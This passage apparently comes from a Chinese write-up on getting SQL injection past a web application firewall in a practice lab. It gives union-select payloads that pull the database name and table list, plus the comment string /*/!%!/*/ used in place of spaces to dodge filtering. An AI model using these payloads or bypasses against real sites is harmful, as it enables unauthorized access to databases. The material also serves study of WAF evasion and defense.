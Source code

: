 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180158.png)

### union select

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180201.png)

`union select`使用之前的垃圾字符替换空格发现不行了：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180203.png)

但是先不急于换方法，再爆破一遍试试：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180204.png)image-20221117231524071![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180206.png)

发现又有很多可以绕过的了。

所以我们再更改一下替换空格的垃圾字符， 这里选`/*/!%!/*/`

即：` `->`/*/!%!/*/`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180208.png)

### 获得当前数据库

正常语句：

    
    
    ?id=-1 union select 1,database(),3 --+

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180213.png)

绕过：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180214.png)

即：`()`->`(/*/!%!/*/)`

### 获取数据库中的表

正常语句：

    
    
    ?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180215.png)image-20221117234536391

绕过：

经过测试发现拦截的是`select + from + information_schema`的组合

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180217.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180218.png)

中间加垃圾字符替换空格已经不管用了，我们尝试对关键字进行混淆。
